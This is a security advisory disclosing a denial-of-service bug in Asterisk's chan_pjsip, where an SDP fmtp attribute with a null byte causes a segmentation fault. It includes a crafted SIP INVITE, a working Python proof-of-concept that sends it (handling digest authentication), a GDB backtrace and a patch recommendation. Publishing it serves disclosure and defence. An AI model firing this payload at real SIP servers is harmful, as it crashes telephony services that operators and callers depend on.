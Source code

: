 # Segmentation fault occurs in asterisk with an invalid SDP fmtp attribute

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- References: AST-2018-003, CVE-2018-1000099
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-02-asterisk-pjsip-sdp-invalid-fmtp-segfault/>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-003.html>
- Timeline:
    - Issue reported to vendor: 2018-01-15
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22


## Description

A specially crafted SDP message body with an invalid fmtp attribute causes a
segmentation fault in asterisk using `chan_pjsip`.


## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when
`chan_pjsip` is in use.


## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
INVITE sip:5678@127.0.0.1:5060 SIP/2.0
To: <sip:5678@127.0.0.1:5060>
From: Test <sip:5678@127.0.0.1:5060>
Call-ID: adc9caea-2d0a-40af-9de5-1dd21387e03a
CSeq: 2 INVITE
Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bKadc9caea-2d0a-40af-9de5-1dd21387e03a
Contact: <sip:5678@172.17.0.1>
Content-Type: application/sdp
Content-Length: 228

v=0
o=- 1061502179 1061502179 IN IP4 172.17.0.1
s=Asterisk
c=IN IP4 172.17.0.1
t=0 0
m=audio 17000 RTP/AVP 9 0 101
a=rtpmap:8 alaw/8000
a=rtpmap:0 PCMU/8000
a=rtpmap:101 telephone-event/8000
a=fmtp\x00:101 0-16
a=sendrecv
```

Notes: 

- `\x00` should be replaced by the null character
- authentication may be required 
- the destination SIP address should match a valid extension in the dialplan.

To facilitate this process we wrote the following python program to reproduce this issue:

```python
import socket
import re
import md5
import uuid

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060
UDP_IP = "0.0.0.0"
UDP_PORT = 13940
USERNAME = "5678"
PASSWORD = "5678"
INVITE_USERNAME = "5678"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

callid = str(uuid.uuid4())

sdpbody = "v=0\r\no=- 1061502179 1061502179 IN IP4 172.17.0.1\r\n" \
    "s=Asterisk\r\n" \
    "c=IN IP4 172.17.0.1\r\n" \
    "t=0 0\r\n" \
    "m=audio 17000 RTP/AVP 9 0 101\r\n" \
    "a=rtpmap:8 alaw/8000\r\n" \
    "a=rtpmap:0 PCMU/8000\r\n" \
    "a=rtpmap:101 telephone-event/8000\r\n" \
    "a=fmtp\x00:101 0-16\r\n"\
    "a=sendrecv"

msg="INVITE sip:%s@%s:%i SIP/2.0\r\n" \
    "To: <sip:%s@%s:%i>\r\n" \
    "From: Test <sip:%s@%s:%s>\r\n" \
    "Call-ID: %s\r\n" \
    "CSeq: 2 INVITE\r\n" \
    "Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
    "Contact: <sip:%s@172.17.0.1>\r\n" \
    "Content-Type: application/sdp\r\n" \
    "{{AUTH}}" \
    "Content-Length: %i\r\n" \
    "\r\n" % (
        INVITE_USERNAME, SERVER_IP, SERVER_PORT,
        INVITE_USERNAME, SERVER_IP, SERVER_PORT,
        USERNAME, SERVER_IP, SERVER_PORT,
        callid, callid,
        USERNAME, len(sdpbody)
        ) + \
    sdpbody

sock.sendto(msg.replace("{{AUTH}}", ""), (SERVER_IP, SERVER_PORT))

data, addr = sock.recvfrom(10240)

if data.startswith("SIP/2.0 401"):
    for line in data.split('\r\n'):
        if line.startswith("WWW-Authenticate"):
            content = line.split(':', 2)[1].strip()
            realm = re.search("realm=\"([a-z]+)\"", content).group(1)
            nonce = re.search("nonce=\"([a-z0-9\/]+)\"", content).group(1)
            ha1 = md5.new(USERNAME + ":" + realm + ":" + PASSWORD).hexdigest()
            uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
            ha2 = md5.new("INVITE:" + uri).hexdigest()
            r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

            auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                "realm=\"%s\"," % (realm) + \
                "nonce=\"%s\"," % (nonce) + \
                "uri=\"%s\"," % (uri) + \
                "response=\"%s\"," % (r) + \
                "algorithm=md5\r\n"

sock.sendto(msg.replace("{{AUTH}}", auth), (SERVER_IP, SERVER_PORT))
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

### GDB backtrace result

```
Thread 197 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7fff65e57700 (LWP 10595)]
pjmedia_sdp_attr_get_fmtp (attr=<optimized out>, fmtp=fmtp@entry=0x7fff65e56430) at ../src/pjmedia/sdp.c:350
350	    while (pj_isdigit(*p) && p!=end)
(gdb) bt
#0  pjmedia_sdp_attr_get_fmtp (attr=<optimized out>, fmtp=fmtp@entry=0x7fff65e56430) at ../src/pjmedia/sdp.c:350
#1  0x00007fff6bf49070 in get_codecs (session_media=0x7fff74799540, codecs=0x7fff65e56450, stream=0x7fff97f99de0, session=0x7fff74581688) at res_pjsip_sdp_rtp.c:276
#2  set_caps (session=session@entry=0x7fff74581688, session_media=session_media@entry=0x7fff74799540, session_media_transport=0x7fff74799540, stream=stream@entry=0x7fff97f99de0, is_offer=is_offer@entry=1, asterisk_stream=asterisk_stream@entry=0x7fff747a03b0)
    at res_pjsip_sdp_rtp.c:352
#3  0x00007fff6bf4b2d7 in negotiate_incoming_sdp_stream (session=0x7fff74581688, session_media=0x7fff74799540, sdp=<optimized out>, index=<optimized out>, asterisk_stream=0x7fff747a03b0) at res_pjsip_sdp_rtp.c:1185
#4  0x00007ffff1a16bb9 in handle_incoming_sdp (session=session@entry=0x7fff74581688, sdp=0x7fff97f99870) at res_pjsip_session.c:671
#5  0x00007ffff1a1a721 in new_invite (invite=<synthetic pointer>) at res_pjsip_session.c:2871
#6  handle_new_invite_request (rdata=0x7fff573f88d8) at res_pjsip_session.c:2966
#7  session_on_rx_request (rdata=0x7fff573f88d8) at res_pjsip_session.c:3030
#8  0x00007ffff7868df7 in pjsip_endpt_process_rx_data (endpt=<optimized out>, rdata=rdata@entry=0x7fff573f88d8, p=p@entry=0x7ffff1a0ace0 <param>, p_handled=p_handled@entry=0x7fff65e56d44) at ../src/pjsip/sip_endpoint.c:887
#9  0x00007ffff17e009f in distribute (data=0x7fff573f88d8) at res_pjsip/pjsip_distributor.c:903
#10 0x00000000005fb3be in ast_taskprocessor_execute (tps=tps@entry=0x1dc33a8) at taskprocessor.c:963
#11 0x0000000000602610 in execute_tasks (data=0x1dc33a8) at threadpool.c:1322
#12 0x00000000005fb3be in ast_taskprocessor_execute (tps=0x1a39488) at taskprocessor.c:963
#13 0x0000000000602af0 in threadpool_execute (pool=0x1a37ca8) at threadpool.c:351
#14 worker_active (worker=0x7fff9457ccd8) at threadpool.c:1105
#15 worker_start (arg=arg@entry=0x7fff9457ccd8) at threadpool.c:1024
#16 0x000000000060d4bd in dummy_start (data=<optimized out>) at utils.c:1257
#17 0x00007ffff5e3d6ba in start_thread (arg=0x7fff65e57700) at pthread_create.c:333
#18 0x00007ffff54263dd in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb)

```


## Solutions and recommendations

Apply the patch issued by Asterisk at <http://www.asterisk.org/security> or upgrade to the latest release.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
